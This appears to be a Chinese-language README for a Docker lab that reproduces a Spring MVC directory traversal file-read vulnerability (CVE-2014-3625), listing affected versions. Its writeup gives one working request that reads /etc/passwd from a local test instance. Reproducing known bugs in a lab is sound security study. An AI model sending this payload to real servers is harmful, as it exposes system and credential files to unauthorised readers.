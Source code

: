 # springmvc 目录穿越文件读取漏洞
## 漏洞描述
springmvc目录穿越文件读取
  
version:Pivotal Spring Framework 3.0.4 through 3.2.x before 3.2.12, 4.0.x before 4.0.8, and 4.1.x before 4.1.2
## 启动
`docker-compose up -d`
## writeup  

`http://localhost:8080/spring-css/resources/file:/etc/passwd`

## 复现结果
![ALT 1](/spring/CVE-2014-3625/1.jpg)  


